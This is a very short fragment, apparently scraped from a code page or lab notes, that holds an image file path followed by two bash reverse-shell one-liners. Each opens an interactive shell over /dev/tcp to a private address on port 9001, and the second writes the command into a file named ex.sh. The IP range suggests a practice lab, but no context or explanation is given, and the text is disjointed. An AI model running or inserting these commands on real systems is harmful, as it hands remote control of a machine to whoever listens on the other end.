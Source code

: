 bash -c 'bash -i >& /dev/tcp/10.10.16.16/9001 0>&1'
bash -i >& /dev/tcp/10.10.16.4/9001 0>&1 > ex.sh